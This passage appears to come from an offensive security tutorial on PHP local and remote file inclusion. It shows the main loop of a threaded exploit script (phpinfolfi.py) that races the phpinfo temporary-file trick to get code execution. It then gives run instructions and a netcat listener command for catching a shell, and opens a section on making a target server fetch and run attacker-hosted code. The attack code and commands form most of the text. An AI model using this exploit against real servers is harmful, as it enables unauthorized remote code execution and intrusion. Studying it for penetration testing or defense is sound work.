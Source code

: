 ```python
    e = threading.Event()
    l = threading.Lock()

    print "Spawning worker pool (%d)..." % poolsz
    sys.stdout.flush()

    tp = []
    for i in range(0,poolsz):
        tp.append(ThreadWorker(e,l,maxattempts, host, port, reqphp, offset, reqlfi, tag))

    for t in tp:
        t.start()
    try:
        while not e.wait(1):
            if e.is_set():
                break
            with l:
                sys.stdout.write( "\r% 4d / % 4d" % (counter, maxattempts))
                sys.stdout.flush()
                if counter >= maxattempts:
                    break
        print
        if e.is_set():
            print "Woot!  \m/"
        else:
            print ":("
    except KeyboardInterrupt:
        print "\nTelling threads to shutdown..."
        e.set()
    
    print "Shuttin' down..."
    for t in tp:
        t.join()

if __name__=="__main__":
    main()
```

Then you can run the script as below

```
python phpinfolfi.py [your-ip] 80 [number-of-threads]
```

Setup your listener

```
nc -lvp 4545
```

**Remote File Inclusion**

In remote file inclusion, we aim to change the value to the URL parameter to a URL under our control so that the target server will make a request to our server and execute commands or do an RCE. Check the `phpinfo` file on the target server and ensure the below two parameters are enabled
